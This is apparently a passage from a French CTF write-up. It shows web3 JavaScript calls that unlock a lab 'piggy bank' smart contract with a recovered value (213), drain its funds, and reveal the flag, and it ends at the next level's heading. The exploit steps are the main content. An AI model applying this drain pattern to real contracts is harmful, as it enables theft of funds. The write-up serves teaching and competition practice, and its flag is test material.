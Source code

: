 La valeur 213 donne bien le bon haché !!

```js
var abi = [{ "constant": true, ... }]; // ABI
var contractAddr = "0x288F068cdae9008944a03a3e7061650046734dC8"; // adresse d'instance
var contract = web3.eth.contract(abi).at(contractAddr);
```

On créer notre "connexion" au smart contract.

```js
contract.isOwner((err,res)=>{console.log(err,res);});
--> false

contract.funds((err,res)=>{console.log(err,res);});
--> 100
```

La valeur de `isOwner` est bien `false`, et les fonds disponibles sont de `100`.

```js
// avant
contract.isOwner((err,res)=>{console.log(err,res);});
--> false

// mettre isOwner à true
contract.unlockPiggyBank("213",(err,res)=>{console.log(err,res);});

// après
contract.isOwner((err,res)=>{console.log(err,res);});
--> true
```

On commence par mettre `isOwner` à `true` en utilisant `unlockPiggyBank()` avec `213` comme paramètre.

```js
contract.funds((err,res)=>{console.log(err,res);});
--> 100

// dépouiller
contract.withdrawPiggyBank((err,res)=>{console.log(err,res);});

contract.funds((err,res)=>{console.log(err,res);});
--> 0
```

Et on appelle `withdrawPiggyBank()`pour récupérer les fonds. Le smart contract a été dépouillé. On peut alors récupérer notre flag en appuyant sur Check.

`SANTA{N0_M0R3_B4D_R4ND0MN3SS_PL3AZ}`

# Level 3 - Gringotts

**Points**: 300

---
